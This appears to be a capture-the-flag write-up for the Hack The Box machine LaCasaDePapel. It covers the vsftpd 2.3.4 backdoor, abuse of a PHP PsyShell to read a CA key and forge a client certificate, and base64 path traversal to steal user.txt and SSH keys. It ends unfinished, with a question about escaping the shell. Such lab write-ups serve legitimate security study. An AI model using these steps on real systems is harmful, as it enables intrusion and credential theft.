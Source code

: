 # LaCasaDePapel

10.10.10.131

![logo](./logo.png)

# User

After an nmap scan it can be seen that the server is running vsftpd 2.3.4.
This version has a ```:)``` backdoor.

Msfconsole:
```
exploit/unix/ftp/vsftpd_234_backdoor
```

This opens the port ```6200``` to give us:

```
Psy Shell v0.9.9 (PHP 7.2.10 â cli) by Justin Hileman
```

This seems like a debugging cli for PHP

Running ```ls``` on the cli gives us a listing of local variables. It returns:

```
Variables: $tokyo
```

Then running ```show $tokyo``` gives a code listing

```
  > 2| class Tokyo {
    3| 	private function sign($caCert,$userCsr) {
    4| 		$caKey = file_get_contents('/home/nairobi/ca.key');
    5| 		$userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6| 		openssl_x509_export($userCert, $userCertOut);
    7| 		return $userCertOut;
    8| 	}
    9| }
```
An important bit off info is the file path ```/home/nairobi/ca.key```

Running private PHP methods:

```
$x = new Tokyo();
$reflector = new ReflectionObject($x);
$method = $reflector->getMethod('sign');
$method->setAccessible(true);

```

This will let us sign and create a user cert

I navigated to the https endpoint and downloaded the CA cert for use in the algo

We also need to make a User CSR **(Certificate Signing Request)**

```
openssl req -nodes -newkey rsa:2048 -keyout user.key -out user.csr -subj "O=La Casa De Papel/CN=lacasadepapel.htb"
```

By running this command:
```
echo $method->invoke($x, "-----BEGIN CERTIFICATE-----
MIIC6jCCAdICCQDISiE8M6B29jANBgkqhkiG9w0BAQsFADA3MRowGAYDVQQDDBFs
YWNhc2FkZXBhcGVsLmh0YjEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDAeFw0x
OTAxMjcwODM1MzBaFw0yOTAxMjQwODM1MzBaMDcxGjAYBgNVBAMMEWxhY2FzYWRl
cGFwZWwuaHRiMRkwFwYDVQQKDBBMYSBDYXNhIERlIFBhcGVsMIIBIjANBgkqhkiG
9w0BAQEFAAOCAQ8AMIIBCgKCAQEAz3M6VN7OD5sHW+zCbIv/5vJpuaxJF3A5q2rV
QJNqU1sFsbnaPxRbFgAtc8hVeMNii2nCFO8PGGs9P9pvoy8e8DR9ksBQYyXqOZZ8
/rsdxwfjYVgv+a3UbJNO4e9Sd3b8GL+4XIzzSi3EZbl7dlsOhl4+KB4cM4hNhE5B
4K8UKe4wfKS/ekgyCRTRENVqqd3izZzz232yyzFvDGEOFJVzmhlHVypqsfS9rKUV
ESPHczaEQld3kupVrt/mBqwuKe99sluQzORqO1xMqbNgb55ZD66vQBSkN2PwBeiR
PBRNXfnWla3Gkabukpu9xR9o+l7ut13PXdQ/fPflLDwnu5wMZwIDAQABMA0GCSqG
SIb3DQEBCwUAA4IBAQCuo8yzORz4pby9tF1CK/4cZKDYcGT/wpa1v6lmD5CPuS+C
hXXBjK0gPRAPhpF95DO7ilyJbfIc2xIRh1cgX6L0ui/SyxaKHgmEE8ewQea/eKu6
vmgh3JkChYqvVwk7HRWaSaFzOiWMKUU8mB/7L95+mNU7DVVUYB9vaPSqxqfX6ywx
BoJEm7yf7QlJTH3FSzfew1pgMyPxx0cAb5ctjQTLbUj1rcE9PgcSki/j9WyJltkI
EqSngyuJEu3qYGoM0O5gtX13jszgJP+dA3vZ1wqFjKlWs2l89pb/hwRR2raqDwli
MgnURkjwvR1kalXCvx9cST6nCkxF2TxlmRpyNXy4
-----END CERTIFICATE-----
", "-----BEGIN CERTIFICATE REQUEST-----
MIICfDCCAWQCAQAwNzEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDEaMBgGA1UE
AwwRbGFjYXNhZGVwYXBlbC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
AoIBAQCmUq+K7RExpveU8RRcxyzhHRDAhhub7cjBULLU+1frmHPEBxleJ5loqORE
X1mGQdIlN2sksYFcvDNW2n7JExhSwKXw21bhyQdGQYg+7I1Y43IsEOZSf/xlOJRF
6/FnHkXHRZTtJm30HJ6OpApTeVHjrowCganjIYAgotdG3C1gUYU9seu6tNeOil3A
9ta99u3JYRWi884247SgupsurZ2TVheZ6OxoYBaEgFVv4trW6QgB8VJsEOg937Tu
Tb+dTjsZa5EwjuzllUjRTk2veUJE0J+BWdFc9O5oBPhoF+Px8+3CTsKWBiKfRtyG
uq8NTL4MfnjqBEdXvwc+kUpOi0x7AgMBAAGgADANBgkqhkiG9w0BAQsFAAOCAQEA
dxTb62Dn0aBhksH/oJpoNomQlqj7hEsQestu6Za5FREyJJu6AiuYzGnLI89ZvlEv
YMtvTErU60NIvVXZZcrNopXyuiceM8HPvEbIQFaOhh/iz62fNjAddOdIItjgAK5o
EmiyDwgABBAFDHzP5hLZrhQ0YcrkZ0LwuVdsUgYjWo83HJkUtX64nMq+Yhdmvq2n
LYCgyChmMmH66aEYAHWOZPONCTIq4tqmWGr9SPPTAt683OGqwWoxB0oHKkFtR6vu
KfL6K9/P96nYpP4beXMkWZDduGO8V4ELSgAKWoGRtOBf7732H1oUvYeJgIbEEXzt
6POSWQ380THZwsyRm6YyLg==
-----END CERTIFICATE REQUEST-----");
```

It provides us with a signed certificate!

Running:
```
$caKey = file_get_contents('/home/nairobi/ca.key');
```
Will give us the ca.key used to signed the certificate. This will let us turn the signed cert into a pk12 file


Chagning into a pk12 file:
```
openssl pkcs12 -export -inkey ca.key -in signed.crt -out signed.p12
```

Using this cert brings us to a ```PRIVATE AREA``` where we can request files with this URL:

```
https://10.10.10.131/?path=X
```

From error messages we seem to be in:

```
/home/berlin/downloads/home/
```

When downloading files we're directed to a url like so:
```
https://10.10.10.131/file/Li4vZG93bmxvYWRzL1NFQVNPTi0yLzAxLmF2aQ==
```

This is a base64 encoded file path. In theory this should let us encode our own

Below is ```../user.txt``` url:

```
../user.txt
Li4vdXNlci50eHQ=
```

This gives us the user.txt. We can repeat this process with the .ssh keys

Note: ```-n``` option is needed with ```echo``` to make sure there is not trailing newline

Extracting the ssh keys for ```berlin``` doesn't let us login with ssh. This is due to the keys not being in the ```authorized_keys``` file

We can write in ```dali``` home using:

```
$myfile = fopen("/home/dali/test.txt", "w") 
```

This can be used to add the key to the ```authorized_keys```. However, when connecting via ssh the shell is just the PsyShell instance

Is there a way to escape?